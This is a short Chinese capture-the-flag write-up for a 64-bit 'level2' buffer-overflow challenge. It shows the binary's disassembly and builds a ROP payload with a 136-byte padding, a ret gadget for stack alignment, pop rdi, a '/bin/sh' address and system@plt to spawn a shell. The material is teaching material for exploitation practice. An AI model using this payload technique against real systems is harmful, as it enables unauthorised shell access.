



先看防护

查看反汇编代码

~~~asm
004005f6    ssize_t vulnerable_function()

00400603        system(line: "echo Input:")
0040061f        void buf
0040061f        return read(fd: 0, &buf, nbytes: 0x200)

00400620    int32_t main(int32_t argc, char** argv, char** envp)

00400628        int32_t argc_1 = argc
0040062b        char** argv_1 = argv
00400634        vulnerable_function()
00400644        return system(line: "echo 'Hello World!'")
~~~

这道题是level2的64位版本，查看字符串依旧有后门提示

所以这次就是在64位下构造rop链。由于32位是栈上传参，64位前几个参数会存在寄存器内，所以需要gadget pop rdi

工具测出需要溢出136

依旧会遇到栈对齐的问题，加个ret即可解决。payload构造：

~~~python
payload = b'A'*136+p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system_plt)
~~~

